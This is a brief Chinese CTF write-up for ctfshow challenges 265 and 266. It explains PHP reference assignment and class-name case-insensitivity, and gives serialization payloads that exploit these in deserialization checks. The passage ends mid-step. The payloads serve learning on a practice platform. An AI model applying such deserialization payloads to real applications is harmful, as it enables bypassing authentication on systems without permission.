 # 265(反序列化中指针引用：&)
例子：
```php
class A{
	public $name;
	public $age;
}
$DMIND=new A();
$DMIND->name="dmind";
$DMIND->age=&$DMIND->name; //&将name的地址传给 age，所以age的值是跟着name的变化而变化
var_dump($DMIND)
```

输出：
```php
object(A)#1 (2) {
  ["name"]=>
  &string(5) "dmind"
  ["age"]=>
  &string(5) "dmind"
}
```
Payload：
```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct(){
        $this->token;
        $this->password = &$this->token;
    }
   
}
echo serialize(new ctfshowAdmin);
?>
```

---
# 266(PHP对类名的大小写不敏感)

因为__destruct()在结束时自动启用
Payload：
```php
<?php
class ctfshow{
}
echo serialize(new ctfshow);
?>
```
将类名改为大写：
